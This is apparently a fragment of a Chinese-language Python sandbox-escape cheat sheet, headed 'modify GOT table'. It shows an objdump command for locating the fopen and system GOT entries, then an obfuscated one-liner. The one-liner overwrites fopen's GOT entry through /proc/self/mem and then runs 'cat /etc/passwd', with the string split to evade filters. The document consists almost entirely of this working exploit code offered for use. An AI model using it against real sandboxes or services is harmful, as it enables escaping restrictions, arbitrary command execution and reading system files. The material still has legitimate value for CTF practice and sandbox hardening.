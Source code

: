 
## 修改 GOT 表

把 fopen 的 GOT 改为 system。先用 objdump 查找
```
objdump -R /usr/bin/python | grep -E "fopen|system"
```

```py
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /etc/passwd'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))
```
